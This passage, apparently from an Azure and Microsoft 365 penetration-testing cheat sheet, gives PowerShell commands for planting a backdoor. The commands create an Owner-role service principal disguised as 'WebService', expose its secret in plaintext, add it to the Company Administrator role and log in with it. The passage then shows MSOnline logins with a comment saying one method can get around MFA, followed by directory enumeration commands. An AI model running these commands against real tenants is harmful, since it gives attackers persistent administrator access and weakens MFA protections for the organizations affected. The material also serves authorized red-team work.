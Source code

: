 #### Backdoors

Create a new Azure service principal as a backdoor

```powershell
$spn = New-AzAdServicePrincipal -DisplayName "WebService" -Role Owner
$spn
$BSTR = [System.Runtime.InteropServices.Marshal]::SecureStringToBSTR($spn.Secret)
$UnsecureSecret = [System.Runtime.InteropServices.Marshal]::PtrToStringAuto($BSTR)
$UnsecureSecret
$sp = Get-MsolServicePrincipal -AppPrincipalId <AppID>
$role = Get-MsolRole -RoleName "Company Administrator"
Add-MsolRoleMember -RoleObjectId $role.ObjectId -RoleMemberType ServicePrincipal -RoleMemberObjectId $sp.ObjectId
#Enter the AppID as username and what was returned for $UnsecureSecret as the password in the Get-Credential prompt
$cred = Get-Credential
Connect-AzAccount -Credential $cred -Tenant “tenant ID" -ServicePrincipal
```

### MSOnline PowerShell Module

```powershell
Import-Module MSOnline
```

#### Authentication

```powershell
Connect-MsolService

## Or this way sometimes gets around MFA restrictions

$credential = Get-Credential
Connect-MsolService -Credential $credential
```

#### Account and Directory Information

List Company Information

```powershell
Get-MSolCompanyInformation
```

List all users

```powershell
Get-MSolUser -All
```

List all groups

```powershell
Get-MSolGroup -All
```

List members of a group (Global Admins in this case)
